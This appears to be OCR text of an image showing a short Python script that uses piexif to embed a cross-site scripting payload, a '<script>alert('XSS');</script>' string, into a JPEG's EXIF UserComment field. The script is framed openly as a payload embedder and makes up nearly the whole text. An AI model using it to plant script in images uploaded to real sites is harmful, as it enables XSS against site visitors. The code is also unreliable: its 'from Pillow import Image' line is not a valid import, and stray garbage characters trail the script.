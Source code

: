 from Pillow import Image
import piexif
def embed_xss_payload(image_path, output_path, payload):
    try:
        img = Image.open(image_path)
        exif_dict = piexif.load(img.info.get("exif", b""))
        payload_bytes = payload.encode("utf-8")
        exif_dict["Exif"][piexif.ExifIFD.UserComment] = payload_bytes
        exif_bytes = piexif.dump(exif_dict)
        img.save(output_path, "jpeg", exif=exif_bytes)
        print(f"Payload successfully embedded into {output_path}")
    except Exception as e:
        print(f"Error embedding payload: {e}")
if __name__ == "__main__":
    input_image = "input.jpg"
    output_image = "output_with_payload.jpg"
    xss_payload = "<script>alert('XSS');</script>"
    embed_xss_payload(input_image, output_image, xss_payload)
XJYx8G7YKNa7&jmw3B*b
